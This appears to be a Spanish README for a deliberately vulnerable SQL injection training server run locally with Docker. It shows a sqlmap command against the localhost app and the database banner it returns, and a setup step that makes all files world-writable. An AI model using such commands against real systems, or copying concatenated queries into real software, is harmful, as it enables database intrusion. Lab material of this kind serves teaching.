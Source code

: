 # SQL Injection

Descargar y Montar el servidor con Docker:

git clone https://github.com/IngenieroRicardo/SQLInjection
cd SQLInjection
sudo chmod a+rwx *
sudo docker-compose up
firefox localhost:8080

<hr>

Al tener las variables concatenadas puedes hacer inyeccion SQL:

```bash
sqlmap -u "http://127.0.0.1:8080/servidor.php?nombre=yo&mensaje=hola" -b

5.5.62-0ubuntu0.14.04.1-log
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.12
banner: '5.5.62-0ubuntu0.14.04.1-log'
```
